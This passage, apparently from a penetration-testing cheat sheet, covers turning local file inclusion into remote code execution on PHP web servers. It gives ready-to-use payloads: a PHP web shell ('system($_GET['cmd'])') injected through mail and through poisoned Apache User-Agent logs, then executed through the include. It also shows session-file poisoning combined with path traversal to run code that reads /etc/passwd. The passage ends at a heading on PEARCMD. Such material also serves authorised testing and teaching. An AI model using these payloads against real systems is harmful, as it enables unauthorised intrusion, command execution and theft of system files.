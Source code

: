 ```powershell
```

In some cases you can also send the email with the `mail` command line.

```powershell
mail -s "<?php system($_GET['cmd']);?>" www-data@10.10.10.10. < /dev/null
```


### RCE via Apache logs

Poison the User-Agent in access logs:

```
$ curl http://example.org/ -A "<?php system(\$_GET['cmd']);?>"
```

Note: The logs will escape double quotes so use single quotes for strings in the PHP payload.

Then request the logs via the LFI and execute your command.

```
$ curl http://example.org/test.php?page=/var/log/apache2/access.log&cmd=id
```


## LFI to RCE via PHP sessions

Check if the website use PHP Session (PHPSESSID)

```javascript
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
```

In PHP these sessions are stored into /var/lib/php5/sess_[PHPSESSID] or /var/lib/php/sessions/sess_[PHPSESSID] files

```javascript
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
```

Set the cookie to `<?php system('cat /etc/passwd');?>`

```powershell
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
```

Use the LFI to include the PHP session file

```powershell
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27
```


## LFI to RCE via PHP PEARCMD
